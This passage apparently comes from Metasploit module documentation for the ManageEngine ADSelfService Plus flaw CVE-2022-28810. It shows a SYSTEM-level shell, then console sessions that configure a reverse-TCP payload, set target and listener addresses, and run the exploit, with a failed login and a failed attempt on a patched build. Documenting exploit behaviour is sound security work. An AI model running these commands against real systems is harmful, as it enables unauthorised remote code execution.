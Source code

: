 ```
M
-----
          

C:\ManageEngine\ADSelfService Plus\bin>whoami
whoami
nt authority\system
```

### Failed log in

```
sf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set PASSWORD lolwat
PASSWORD => lolwat
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[-] Exploit aborted due to failure: no-access: Log in attempt failed

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
```

### Failed exploitation of patched ADSelfService Plus build 6122

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.16
RHOST => 10.0.0.16
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. This determination is based on the version string: 6122. "set ForceExploit true" to override check result.

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
```


[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe
